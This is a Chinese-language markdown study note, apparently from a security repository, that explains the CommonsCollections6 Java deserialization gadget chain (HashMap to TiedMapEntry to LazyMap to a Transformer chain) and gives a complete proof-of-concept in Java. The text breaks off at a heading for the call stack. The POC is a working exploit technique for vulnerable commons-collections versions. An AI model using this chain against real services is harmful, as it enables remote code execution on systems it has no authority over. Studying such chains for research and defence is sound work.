




- [CC6](#cc6)
  - [HashMap#hash](#hashmaphash)
  - [TiedMapEntry#hashCode](#tiedmapentryhashcode)
  - [TiedMapEntry#getValue](#tiedmapentrygetvalue)
  - [POC](#poc)
# CC6
条件:  
* commons-collections <= 3.2.1

## HashMap#hash
在HashMap的`readObject`方法中最后调用了`putVal(hash(key), key, value, false, false);`方法,其中对`key`调用了`hash`进行计算,

而在对应的`hash`中又调用了key的`hashCode`.

## TiedMapEntry#hashCode
当key为`TiedMapEntry`对象时就会来到其`hashCode`方法中,其中调用了该对象的`getValue()`方法.

## TiedMapEntry#getValue
而在其`getValue`方法中调用了`this.map.get(this.key)`方法,这就和CC5的TiedMapEntry后续利用方式一致了,通过LazyMap.get方法进入`Transform`利用链.

## POC
其中为了防止在调用`HashMap.put`时触发`LazyMap`链,所以在Put元素之前先传一个空的`chainedTransformer`,后续再用反射重新传入`Transformer`利用链.  
同时触发`LazyMap`链时会写入`test`元素,导致在反序列化时,在`LazyMap`的`get`方法中不会进入调用`transform`的条件分支,因为已经此时的`Map`中已经有一个相同的元素了,所以需要在`Put`触发`LazyMap`链后将写入的`test`元素用`remove`方法移除.  

完整POC:
```java
    public static void main(String[] args) throws Exception {
        Transformer[] faketrans = new Transformer[]{};
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class},new Object[] {getTemplate()})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(faketrans);
        HashMap fake = new HashMap();
        Map outMap = LazyMap.decorate(fake,chainedTransformer);
        TiedMapEntry Tiedmap =  new TiedMapEntry(outMap,"test");
        HashMap hashMap = new HashMap();
        hashMap.put(Tiedmap,"1");
        outMap.remove("test");
        setFieldValue(chainedTransformer,"iTransformers",transformers);
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(hashMap);
        oos.close();
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        ois.readObject();
    }
```
调用栈如下:
